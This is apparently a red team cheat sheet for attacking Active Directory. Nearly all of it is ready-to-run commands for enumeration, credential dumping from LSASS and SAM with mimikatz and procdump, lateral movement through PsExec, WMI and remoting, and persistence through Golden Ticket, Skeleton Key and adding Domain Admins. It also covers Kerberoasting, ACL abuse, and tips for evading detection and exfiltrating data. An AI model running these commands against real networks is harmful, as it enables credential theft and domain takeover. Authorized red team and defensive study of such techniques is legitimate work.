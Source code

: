 # Active Directory Cheat Sheet for Red Team Operators

This cheat sheet focuses on real-world TTPs used during internal red team ops against Active Directory environments. Includes PowerShell, command-line, and tool-assisted approaches for **enumeration**, **privilege escalation**, **persistence**, **lateral movement**, and **AD abuse**.

---

## 🔍 Recon & Enumeration

### Basic Environment Info (from domain-joined host)

```powershell
whoami /groups
set
systeminfo
echo %USERDNSDOMAIN%
```

### Get Domain Info

```powershell
nltest /dclist:<domain>
nltest /domain_trusts
echo %LOGONSERVER%
```

### List Domain Controllers

```powershell
Get-ADDomainController -Filter * | Select-Object HostName, IPv4Address
```

### Net Commands

```powershell
net group "Domain Admins" /domain
net user <user> /domain
net group /domain
net localgroup administrators
```

### Powerview (PowerShell-based AD enumeration)

```powershell
Import-Module .PowerView.ps1

Get-NetDomain
Get-NetUser
Get-NetComputer
Get-NetGroup -GroupName "Domain Admins"
Find-LocalAdminAccess
```

---

## 🧠 User Hunting

### Find where users are logged in

```powershell
Invoke-UserHunter
Invoke-StealthUserHunter
```

### Find local admin rights

```powershell
Find-LocalAdminAccess
```

---

## 🔑 Credential Access

### Dumping Hashes with mimikatz

```powershell
privilege::debug
lsadump::lsa
lsadump::sam
sekurlsa::logonpasswords
```

### Extract cached logon data

```powershell
reg query "HKLMSECURITYCache"
```

### Dump credentials from memory (Windows)

```powershell
procdump.exe -ma lsass.exe lsass.dmp
```
Then analyze with mimikatz or pypykatz.

---

## 🧱 Lateral Movement

### PsExec (needs admin)

```bash
psexec.exe target cmd.exe
```

### WMI Execution

```powershell
wmic /node:target process call create "cmd.exe /c whoami"
```

### PowerShell Remoting

```powershell
Enter-PSSession -ComputerName target -Credential <user>
```

### RDP (classic)

```bash
mstsc /v:target
```

---

## 🪝 Persistence

### Add user to Domain Admins (if DA)

```powershell
net group "Domain Admins" newuser /add /domain
```

### Golden Ticket

```powershell
kerberos::golden /user:Administrator /domain:<domain> /sid:<domain SID> /krbtgt:<hash> /ptt
```

### Skeleton Key (inject into LSASS)

```powershell
misc::skeleton
```

---

## 🧬 Active Directory Object Abuse

### Kerberoasting

```powershell
Invoke-Kerberoast
```

### AS-REP Roasting (no preauth required)

```powershell
Get-ASREPHash -User <targetUser>
```

### ACL Abuse: Add user to ACL of target object

```powershell
Add-ADPermission -Identity <target> -User <attacker> -ExtendedRights "Reset Password"
```

---

## 🔓 Privilege Escalation Paths

### Group Membership Misconfigs

- Domain Users in local `Administrators`
- Authenticated Users with `GenericAll` on OUs

Use: **BloodHound** or `SharpHound`

---

## 🩸 Tools Reference

- **BloodHound** – Graph-based AD attack path mapper
- **SharpHound** – Data collector for BloodHound
- **Rubeus** – Kerberos abuse and ticket manipulation
- **PowerView** – AD recon via PowerShell
- **Mimikatz** – Credential dumping, ticket creation
- **Impacket** – Python SMB/RPC tools (wmiexec, secretsdump, etc.)
- **Seatbelt** – Local system enumeration

---

## 🧯 Defensive Notes (for OPSEC-aware operations)

- Avoid touching `Domain Admins` unless necessary
- Avoid Kerberos ticket injection unless needed (tripwire logs)
- Use `stealth` options in tools where available
- Rotate user-agent and tool paths if using PowerShell

---

## 🔚 Summary Tips

- Enumerate first, escalate later
- Always check for path to DA *without* needing hashes (ACLs, delegation, SPNs)
- Use BloodHound + SharpHound early
- Rotate and exfil using safe protocols (SMB > HTTP for internal)

---


